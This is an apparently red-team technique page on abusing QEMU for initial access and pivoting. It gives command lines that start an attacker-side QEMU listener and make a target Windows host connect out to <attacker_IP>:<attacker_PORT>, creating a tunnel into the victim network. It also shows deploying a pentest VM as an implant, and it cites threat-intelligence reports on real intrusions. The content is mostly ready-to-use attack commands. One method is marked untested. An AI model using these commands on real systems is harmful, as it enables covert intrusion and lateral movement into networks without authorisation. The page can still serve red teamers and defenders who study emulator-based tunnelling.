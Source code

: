 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - living-off-the-land
  - living-off-the-foreign-land
  - bring-your-own-island
  - cross-platform
---
```

# QEMU

## Virtual Machine as a Pivot Handler

Launch QEMU server to host a live ISO.

```
$ qemu-system-x86_64 -boot d -cdrom linux-pentest-os.iso -m 6048 -device e1000,netdev=n1,mac=52:54:00:12:34:56 -smp 2 -netdev socket,id=n1,listen=:<attacker_PORT>
```

Let the target establish connection to the attacker's virtual machine server to create a pivoting network to gain initial access.

```
C:\> .\qemu-system-x86_64.exe -m 1M -netdev user,id=lan,restrict=off -netdev socket,id=sock,connect=<attacker_IP>:<attacker_PORT> -netdev hubport,id=port-lan,hubid=0,netdev=lan -netdev hubport,id=port-sock,hubid=0,netdev=sock -nographic

C:\> .\qemu-system-i386.exe -m 1M -netdev user,id=lan,restrict=off -netdev socket,id=sock,connect=<attacker_IP>:<attacker_PORT> -netdev hubport,id=port-lan,hubid=0,netdev=lan -netdev hubport,id=port-sock,hubid=0,netdev=sock -nographic
```

## QEMU Host as a Pivot Handler

TODO: Test this method.

Launch the QEMU as a reverse pivot handler.

```
$ qemu-system-x86_64 -m 512M -device e1000,netdev=n1,mac=52:54:00:12:34:56 -netdev socket,id=n1,listen=:<attacker_PORT> -nographic
```

On the client side establish connection to the attacker's server.

```
C:\> .\qemu-system-i386.exe -m 1M -netdev socket,id=sock,connect=<attacker_IP>:<attacker_PORT> -device e1000,netdev=sock,mac=52:54:00:65:43:21 -nographic

C:\> .\qemu-system-x86_64.exe -m 1M -netdev socket,id=sock,connect=<attacker_IP>:<attacker_PORT> -device e1000,netdev=sock,mac=52:54:00:65:43:21 -nographic
```

## Virtual Machine as an Implant

Deploy your own custom virtual machine as a pivot box.

```
C:\> .\qemu-system-x86_64.exe -drive file=C:\path\to\linux-pentest-os.iso -nographic &

C:\> .\qemu-system-i386.exe -drive file=C:\path\to\linux-pentest-os.iso -nographic &
```

---
## References

### Mandiant

- [Mandiant: Live off the Land? How About Bringing Your Own Island? An Overview of UNC1945](https://cloud.google.com/blog/topics/threat-intelligence/live-off-the-land-an-overview-of-unc1945)

### SecureList

- [SecureList: Network tunneling with… QEMU?](https://securelist.com/network-tunneling-with-qemu/111803/)

### Securonix

- [Securonix: CRON#TRAP - Emulated Linux Environments as the Latest Tactic in Malware Staging](https://www.securonix.com/blog/crontrap-emulated-linux-environments-as-the-latest-tactic-in-malware-staging/)